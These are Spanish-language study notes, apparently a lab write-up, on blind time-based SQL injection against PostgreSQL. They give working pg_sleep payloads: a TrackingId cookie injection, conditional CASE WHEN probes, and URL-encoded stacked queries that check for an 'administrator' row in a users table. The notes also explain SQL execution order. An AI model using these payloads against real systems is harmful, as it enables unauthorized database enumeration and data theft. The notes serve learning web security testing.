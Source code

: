 # Blind SQL injection with time delays

Se puede inyectar codigo con delays de tiempo cambia mucho para cada base de datos

> Las técnicas para desencadenar un retraso de tiempo son muy específicas para el tipo de base de datos que se utiliza. En Microsoft SQL Server, una entrada como la siguiente se puede usar para probar una condición y desencadenar un retraso dependiendo de si la expresión es verdadera:


```
TrackingId=x'||pg_sleep(10)--

```


# Blind SQL injection with time delays and information retrieval 

# Checar si el vulnerable al Ataque Paso 1

Para probar si es vulnerable a este tipo de ataque se pueden utilizar los condicionales

```
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
'SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
'SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--
'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

# Orden de ejecucion en SQL Paso 2 ( para probar existencia de tablas)

> https://programacion.net/articulo/el_orden_de_ejecucion_de_las_queries_en_sql_1032

El orden en que se ejecuta una sentencia SQL nos puede ayudar a checar si existen usuarios y tablas. La siguiente tabla muentra como se va ejecutando una sentencia SQL la primera intruccion que se ejecuta es el from

## Logical Query Processing Phase

Cuando escribes una serie de comandos dentro de una query sql, estos comandos se dividen mediante una fase de procesamiento lógico. Cada fase genera una serie de tablas virtuales que alimentan a la siguiente fase. Por supuesto, dichas tablas virtuales no son visibles por los administradores. Las fases y su orden de ejecución son las siguiente

```
1. FROM
2. ON
3. OUTER
4. WHERE
5. GROUP BY
6. CUBE | ROLLUP
7. HAVING
8. SELECT
9. DISTINCT
10 ORDER BY
11. TOP
```


## Checar Tablas y Sacar informacion 

```
'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

Por el Orden de ejecucion

```

'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END from users where username='administrator'--;

```

